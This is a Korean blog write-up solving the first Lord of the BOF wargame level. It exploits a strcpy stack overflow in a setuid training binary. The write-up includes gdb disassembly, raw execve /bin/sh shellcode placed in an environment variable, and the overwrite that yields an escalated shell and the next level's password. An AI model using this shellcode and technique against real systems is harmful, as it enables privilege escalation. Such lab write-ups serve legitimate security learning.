 ```yaml
---
title: LOB 1번 gate -> gremlin Write-up
date: 2017-8-20 18:05:00
categories: LOB
tags: LOB, gate, gremlin
---
```


처음부터 LOB를 풀자니 조금 어려워서, 비슷한 오버플로우 문제인 FTZ 9번과 11번 문제의 write-up을 참고해 문제를 풀었습니다.

## LOB 1번

LOB를 설치한 VM의 주소로 접속하면 이러한 화면이 나옵니다.


    _______________________
      _______________________-------------------                       `\
     /:--__                                                              |
    ||< > |                                   ___________________________/
    | \__/_________________-------------------                         |
    |                                                                  |
     |        The Lord of the BOF : The Fellowship of the BOF, 2010    |
     |                                                                  |
     |                                                                  |
      |       [enter to the dungeon]                                    |
      |       gate : gate                                                |
      |                                                                  |
      |       [RULE]                                                     |
       |      - do not use local root exploit                             |
       |      - do not use LD_PRELOAD to my-pass                          |
       |      - do not use single boot                    [h4ck3rsch001] |
      |                                              ____________________|_
      |  ___________________-------------------------                      `\
      |/`--_                                                                 |
      ||[ ]||                                            ___________________/
       \===/___________________--------------------------
    
    login:

`bash2`부터 띄우자.

    [gremlin@localhost gremlin]$ bash2

LOB에서는 my-pass 명령을 쳤을 때 다음 레벨의 비밀번호인 플래그가 출력되는데, 아직은 gate권한을 가지고 있으므로 이렇게 플래그 출력을 거부합니다.

    [gate@localhost gate]$ id
    uid=500(gate) gid=500(gate) groups=500(gate)
    [gate@localhost gate]$ my-pass
    euid = 500
    I dunno
현재 디렉토리에는 파일이 3개가 있습니다.

    [gate@localhost gate]$ ls -l
    total 16
    -rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
    -rw-rw-r--    1 gate     gate          272 Mar 29  2010 gremlin.c

bash2를 띄운 후 gremlin의 소스를 확인하면 이렇게 생겼습니다.

    [gate@localhost gate]$ bash2
    [gate@localhost gate]$ cat gremlin.c
    /*
            The Lord of the BOF : The Fellowship of the BOF
            - gremlin
            - simple BOF
    */
    
    int main(int argc, char *argv[])
    {
        char buffer[256];
        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }

간단한 BOF라네요.
argc인자로 값을 받아오는 구조이고, 256바이트의 버퍼에 저장합니다.
오버플로우가 생길거라고 말해줍니다.

gdb를 사용하기 위해서는 현재 소유주인 파일만 분석이 가능하므로 gremlin 파일을 복사해 주었습니다.

    [gate@localhost gate]$ cp gremlin gremlin1
    [gate@localhost gate]$ ls -l
    total 28
    -rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
    -rw-rw-r--    1 gate     gate          272 Mar 29  2010 gremlin.c
    -rwsr-sr-x    1 gate     gate        11987 Aug 20 12:45 gremlin1

메모리에는 256바이트의 버퍼값과 4바이트의 버퍼 주소값이 저장되기 때문에 이처럼 파이썬 코드를 이용해 260바이트의 값을 넣어주면 Segmentation Fault가 출력됨을 알 수 있습니다.
Segmentation fault에러는 할당된 메모리를 넘어서서 잘못된 부분까지 건드릴 때 나오는 에러입니다. 오버플로우의 확인 메시지로 보면 됩니다.

    [gate@localhost gate]$ ./gremlin1 `python -c 'print "a"*260'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    Segmentation fault (core dumped)

[uid 참고 자료](http://sosal.kr/122)

### 쉘코드 작성
gremlin 파일에는 setuid가 걸려있으므로 buffer를 넘어서서 sfp 값을 덮어쓰고, ret값을 수정하면 root권한의 쉘을 실행시킬 수 있겠습니다. gdb에서 gremlin의 main함수를 뜯어보면 `main+3` 에서 0x100, 즉 256바이트만큼 ESP의 값을 낮춤으로써 버퍼를 확보하는것이 보입니다.

    (gdb) disass main
    Dump of assembler code for function main:
    0x8048430 <main>:       push   %ebp
    0x8048431 <main+1>:     mov    %esp,%ebp
    0x8048433 <main+3>:     sub    $0x100,%esp
    0x8048439 <main+9>:     cmpl   $0x1,0x8(%ebp)
    0x804843d <main+13>:    jg     0x8048456 <main+38>
    0x804843f <main+15>:    push   $0x80484e0
    0x8048444 <main+20>:    call   0x8048350 <printf>
    0x8048449 <main+25>:    add    $0x4,%esp
    0x804844c <main+28>:    push   $0x0
    0x804844e <main+30>:    call   0x8048360 <exit>
    0x8048453 <main+35>:    add    $0x4,%esp
    0x8048456 <main+38>:    mov    0xc(%ebp),%eax
    0x8048459 <main+41>:    add    $0x4,%eax
    0x804845c <main+44>:    mov    (%eax),%edx
    0x804845e <main+46>:    push   %edx
    0x804845f <main+47>:    lea    0xffffff00(%ebp),%eax
    0x8048465 <main+53>:    push   %eax
    0x8048466 <main+54>:    call   0x8048370 <strcpy>
    0x804846b <main+59>:    add    $0x8,%esp
    0x804846e <main+62>:    lea    0xffffff00(%ebp),%eax
    0x8048474 <main+68>:    push   %eax
    0x8048475 <main+69>:    push   $0x80484ec

추가적인 더미 메모리 구조는 보이지 않으므로 메모리 구조는 이렇게 됩니다.

buffer(256byte)  |  sfp(4byte) | ret(4byte)

따라서 쉘코드는 아래처럼 만들면 되겠습니다.

(buffer를 채울 nop값 256바이트) | (SFP채울 더미 값 4byte) | (쉘코드의 주소값 4byte)

리눅스의 export명령어를 활용해 shell이라는 환경변수를 등록하였습니다.

    [gate@localhost gate]$ export shell=`python -c 'print "\x90" * 100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`

이제 이 shell이라는 환경변수의 주소값을 찾아서 ret값에 넣어주기만 하면 되겠습니다.

    [gate@localhost gate]$ mkdir temp
    [gate@localhost gate]$ cd temp
    [gate@localhost temp]$ vi addr.c
    #include<stdio.h>
    int main(){
            printf("%#p \n", getenv("shell"));
    }

    [gate@localhost temp]$ gcc -o addr addr.c
    [gate@localhost temp]$ ls
	addr  addr.c
	[gate@localhost temp]$ ./addr
	0xbffffd90

따라서 shellcode의 주소는 0xbffffd90입니다.

    [gate@localhost gate]$ ./gremlin `python -c 'print "\x90" * 260 + "\x90\xfd\xff\xbf"'`
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA멅?
    bash$ id
    uid=500(gate) gid=500(gate) euid=501(gremlin) egid=501(gremlin) groups=500(gate)
    bash$ my-pass
    euid = 501
    hello bof world

2번 문제인 cobolt의 비밀번호는 `hello bof world`로 나왔습니다.
